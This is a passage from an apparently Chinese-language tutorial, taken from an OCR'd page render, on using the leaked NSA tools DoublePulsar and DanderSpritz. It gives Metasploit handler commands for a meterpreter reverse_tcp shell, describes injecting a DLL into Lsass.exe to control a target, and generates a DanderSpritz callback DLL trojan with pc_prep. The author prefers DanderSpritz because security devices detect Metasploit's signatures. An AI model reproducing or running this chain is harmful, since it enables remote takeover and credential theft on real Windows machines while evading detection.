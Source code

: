 
```
$ msfconsole
    msf &gt; use exploit/multi/handler
    msf &gt; set LHOST 192.168.38.129
    msf &gt; set LPORT 8089
    msf &gt; set PAYLOAD windows/x64/meterpreter/reverse_tcp
    msf &gt; exploit
```

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t013114d958f79c4302.png)

配置DoublePulsar来注入dll

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014858d1c49506a99d.png)

注入DLL到Lsass.exe进程,通过metasploit控制目标机器。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t010c5cc02a33f015e0.png)



**DanderSpritz介绍**



DanderSpritz是nsa著名的RAT,很多的反病毒厂商都抓到过此RAT的样本,信息收集模块做的特别全。

使用python start_lp.py启动,设置好配置信息之后,功能就可以使用。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019ac83828e0447bed.png)

打开之后我们可在终端进行输入help，进行查看帮助信息。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a28ab42509999c74.png)

可用命令的数量比FuzzBunch要多一些，我研究此远控的目的是为了能生成dll文件，配合DoublePulsar使用，直接反向连接到DanderSpritz,我本人不是特别喜欢用metasploit,很多的防护设备已经有了metasploit的特征,容易发现。还有metasploit生成的dll在使用DoublePulsar注入到win7的时候,win7会重启。

经过一番查找，发现pc_prep负责生成有效载荷。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0174dc1bf4eb4ff791.png)

pc_prep有点类似于msfvenom。使用命令pc_prep -sharedlib列出可生成dll的选项，来生成一个DLL的马儿，配置信息如下：

```
pc_prep -sharedlib
- Possible payloads:
-      0) - Quit
-      1) - Standard TCP (i386-winnt Level3 sharedlib)
-      2) - HTTP Proxy (i386-winnt Level3 sharedlib)
-      3) - Standard TCP (x64-winnt Level3 sharedlib)
-      4) - HTTP Proxy (x64-winnt Level3 sharedlib)
-      5) - Standard TCP Generic (i386-winnt Level4 sharedlib)
-      6) - HTTP Proxy Generic (i386-winnt Level4 sharedlib)
-      7) - Standard TCP AppCompat-enabled (i386-winnt Level4 sharedlib)
-      8) - HTTP Proxy AppCompat-enabled (i386-winnt Level4 sharedlib)
-      9) - Standard TCP UtilityBurst-enabled (i386-winnt Level4 sharedlib)
-     10) - HTTP Proxy UtilityBurst-enabled (i386-winnt Level4 sharedlib)
-     11) - Standard TCP WinsockHelperApi-enabled (i386-winnt Level4 sharedlib)
-     12) - HTTP Proxy WinsockHelperApi-enabled (i386-winnt Level4 sharedlib)
-     13) - Standard TCP (x64-winnt Level4 sharedlib)
-     14) - HTTP Proxy (x64-winnt Level4 sharedlib)
-     15) - Standard TCP AppCompat-enabled (x64-winnt Level4 sharedlib)
-     16) - HTTP Proxy AppCompat-enabled (x64-winnt Level4 sharedlib)
-     17) - Standard TCP WinsockHelperApi-enabled (x64-winnt Level4 sharedlib)
-     18) - HTTP Proxy WinsockHelperApi-enabled (x64-winnt Level4 sharedlib)
Pick the payload type
3
Update advanced settings
NO
Perform IMMEDIATE CALLBACK?
YES
Enter the PC ID [0]
```